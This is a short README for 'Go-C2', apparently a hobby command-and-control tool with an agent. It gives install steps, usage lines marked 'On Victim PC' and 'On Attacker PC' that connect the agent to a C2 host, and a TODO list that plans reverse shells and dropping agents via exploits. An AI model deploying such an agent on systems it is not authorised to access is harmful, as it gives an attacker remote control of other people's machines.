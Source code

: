 

# Go-C2 v0.1

## What is this? 
This is a fairly small tool I wrote that acts as a sort of C2 and an Agent for that C2, additionally the Agent can act as a proxy server when needed.

## Why? 
Because I was annoyed that metasploit's meterpreters don't have a port scanning option so I implemented one myself


## Features:
* C2 client
* Agent

## Installing:
```sh
git clone https://github.com/mrLochness350/Go-C2.git
cd Go-C2
chmod +x install.sh
./install.sh
```
# Usage:

**On Victim PC**
```sh
$ ./Agent_linux_amd64 -c <C2 Address> -p <C2 Port>
```

**On Attacker PC**
```sh
$ ./C2_linux_amd64 -c <Agent Address> -p <Agent Port>
```


# TODO:

### General:
* Encrypt C2/Agent traffic
* Add 2-way authentication to avoid snooping

### Agent
* Fix proxy problems
* Add extra verbosity
* Add background option
* Make the connection a reverse shell
* Add option to drop into shell and not only execute code via the `shell` argument
* Add option to host the C2 from the Agent as a pivot-point

### C2
* Add multiple host listeners
* Add option to drop Agent via exploits
* Make the cli more interactive
* Execute commands on an Agent from the cli 
